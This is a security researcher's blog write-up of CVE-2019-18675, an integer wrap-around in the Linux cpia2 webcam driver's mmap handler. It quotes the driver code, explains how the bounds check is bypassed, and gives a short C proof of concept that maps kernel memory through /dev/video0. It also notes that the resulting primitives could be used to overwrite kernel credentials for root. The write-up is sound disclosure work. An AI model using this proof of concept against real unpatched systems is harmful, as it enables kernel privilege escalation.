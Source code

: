 ```yaml
---
layout: post
title: mmap handler exploitation
category: Kernel-Research 
---
```


## Description
Recently I started to review the linux kernel , I've putted much  time and effort trying to identify vulnerabilities. 
I looked on the cpia2 driver , which is a V4L driver , aimed for supporting cpia2 webcams. official documentation [here]( https://www.kernel.org/doc/html/latest/media/v4l-drivers/cpia2.html). 
I found a vulnerability in the mmap handler implementation of the driver. Kernel drivers may re-implement their own mmap handlers , usually for speeding up the process of exchanging data between user space and kernel space. The cpia2 driver re-implement a mmap hanlder for sharing  the frame's buffer with the user application which controls the camera.
---

## Lets get into it 
Here is the userspace mmap function prototype (taken from man):
```c
void *mmap(void *addr, size_t length, int prot, int flags,
                  int fd, off_t offset);
```
Here the user supplies parameter for the mapping , we will be interested in the size and offset parameters.
- length - will determine the length of the mapping
- size - will determine the offset from the beginning of the device we will start the mapping from.

The driver's specific mmap handler will remap kernel memory to userspace using a function like  [remap_pfn_range](https://www.kernel.org/doc/htmldocs/kernel-api/API-remap-pfn-range.html)
## CVE-2019-18675

Lets have a look at the cpia2 mmap handler implementation:

We can see  the file_operations struct:
```c

/***
 * The v4l video device structure initialized for this device
 ***/
static const struct v4l2_file_operations cpia2_fops = {
	.owner		= THIS_MODULE,
	.open		= cpia2_open,
	.release	= cpia2_close,
	.read		= cpia2_v4l_read,
	.poll		= cpia2_v4l_poll,
	.unlocked_ioctl	= video_ioctl2,
	.mmap		= cpia2_mmap,
    };
```

Lets look at the function cpia2_mmap 
```c
static int cpia2_mmap(struct file *file, struct vm_area_struct *area)
{
	struct camera_data *cam = video_drvdata(file);
	int retval;

	if (mutex_lock_interruptible(&cam->v4l2_lock))
		return -ERESTARTSYS;
	retval = cpia2_remap_buffer(cam, area);

	if(!retval)
		cam->stream_fh = file->private_data;
	mutex_unlock(&cam->v4l2_lock);
	return retval;
}
```

It just calls the function cpia2_remap_buffer() with a pointer to the `camera_data` struct:

```c
/******************************************************************************
 *
 *  cpia2_remap_buffer
 *
 *****************************************************************************/
int cpia2_remap_buffer(struct camera_data *cam, struct vm_area_struct *vma)
{
	const char *adr = (const char *)vma->vm_start;
	unsigned long size = vma->vm_end-vma->vm_start;
	unsigned long start_offset = vma->vm_pgoff << PAGE_SHIFT;
	unsigned long start = (unsigned long) adr;
	unsigned long page, pos;

	DBG("mmap offset:%ld size:%ld\n", start_offset, size);

	if (!video_is_registered(&cam->vdev))
		return -ENODEV;

	if (size > cam->frame_size*cam->num_frames  ||
	    (start_offset % cam->frame_size) != 0 ||
	    (start_offset+size > cam->frame_size*cam->num_frames))
		return -EINVAL;

	pos = ((unsigned long) (cam->frame_buffer)) + start_offset;
	while (size > 0) {
		page = kvirt_to_pa(pos);
		if (remap_pfn_range(vma, start, page >> PAGE_SHIFT, PAGE_SIZE, PAGE_SHARED))
			return -EAGAIN;
		start += PAGE_SIZE;
		pos += PAGE_SIZE;
		if (size > PAGE_SIZE)
			size -= PAGE_SIZE;
		else
			size = 0;
	}

	cam->mmapped = true;
	return 0;
}
```
we can see that start_offset + size is being calculated , and the sum is being compared to the totoal size of the frames.        
However, the calculation start_offset + size could wrap-around to a low value, allowing an attacker to bypass the check while still using a  big start_offset value which will lead to mapping of unintended  kernel memory. The only requirement is that the start_offset value will be a multiple of the frame_size (which can be controlled by the cpia2 driver options, by default its 68k).
And this can be  quite bad because a huge offset will allow us to perform a mapping in an arbitrary offset (outside of  the frame buffer's bounds)  , and this  can possibly result in  a privillege escalation

## Demo time!

I've used a qemu kernel virtual machine ([here]()).
Now we have to:

- Open /dev/video0 
- mmaping size 0x11000 at offset 0xffffffffffff0000. The overlow will ocuur and we will pass the check :)

Here is a minimalistic example for exploit code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>

#define VIDEO_DEVICE "/dev/video0"
int main(){

        pid_t pid;
        char command[40];

        int fd =  open(VIDEO_DEVICE , O_RDWR);
        if(fd < 0){
                printf("[-]Error opening device file\n");
        }

        printf("[+]Demonstration\n");
        pid = getpid();
        printf("[~]PID IS %d ", pid);

        getchar();
        int size =  0x11000;
        unsigned long mapStarter = 0x43434000;
        unsigned long * mapped = mmap((void *)mapStarter,  size, PROT_WRITE | PROT_READ, MAP_SHARED , fd , 0xffffffffffff0000);


        if(mapped == MAP_FAILED)
                printf("[-]Error mapping the specified region\n");
        else
                puts("[+]mmap went successfully\n");
        /*view the /proc/<pid>/maps file */

        sprintf(command , "cat /proc/%d/maps", pid);
        system(command);

        return 0;
}

```
Compile and run:

![](/assets/img/alictf-2016/demo.png) 

and B00M! we have got a read and write primitives in kernel space! By modifying `` struct cred `` or kernel function pointers/ variables we can possibly gain root! or destroy kernel data!

## Tips and thoughts 

- Because I didnt have the required hardware (for example,  Intel Qx5 microscope ), I've made some changes in the driver's code for this poc . I made some changes to the hardware and usb's parts, In a way that allowed me to test the mmap functionallity as its in the original driver . Because the vulnerability is not related to the hardware interaction partsl , this wasn't a problem. 
This way I could research more and even debug the interesting parts  without being depend on hardware.

- This vulnerability is more than 8 years old!

- This is my first public vulnerability!


## Additional info

- CVE-2019-18675 on [NVD](https://nvd.nist.gov/vuln/detail/CVE-2019-18675)
- CVE-2019-18675 on [Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18675)
